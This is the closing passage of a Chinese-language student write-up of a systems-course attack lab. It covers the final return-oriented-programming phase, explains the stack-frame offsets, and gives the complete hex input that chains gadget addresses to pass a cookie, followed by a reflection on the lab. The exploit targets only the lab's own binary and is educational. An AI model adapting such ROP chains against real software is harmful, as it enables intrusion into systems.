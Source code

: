 ### 栈帧讲解

为节省空间，每一行代码都省略了后面的`ret`，

![image-20220305192432219](https://cdn.jsdelivr.net/gh/Deconx/ImgHosting/Deconx-pic/image-20220305192432219.png)

逻辑在图上标的很清楚，这里就不再用文字写啦！

**要注意**，`getbuf`执行`ret`后相当于进行了一次`pop`操作，`test`的栈顶指针`%rsp=%rsp+0x8`，所以`cookie`相对于此时栈顶指针的偏移量是`0x48`而不是`0x50`

### Solution

根据上图的栈帧，写出输入序列：

```shell
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
ad 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61
```

![image-20220305193301330](https://cdn.jsdelivr.net/gh/Deconx/ImgHosting/Deconx-pic/image-20220305193301330.png)

**Pass! 攻击成功！**

# 总结

- 本实验涉及的内容在课本中只有短短几页的篇幅，而实际操作中却要考虑如此多的东西，确实是那句话“纸上得来终觉浅，绝知此事要躬行”。五个`Phase`的难度是层层递进的，`Part 1`让我对部分汇编指令以及栈的原理有了更深的领悟；`Part 2`可能就更加贴合实际工程项目了，我在这里初步学习了“ROP”这一天才的攻击技术，实现成功的攻击需要对每一个字节都能有足够的敏感。同时，在我以后编写的代码中，也应该注意到缓冲区溢出的问题
- 本实验耗时2天，约9小时



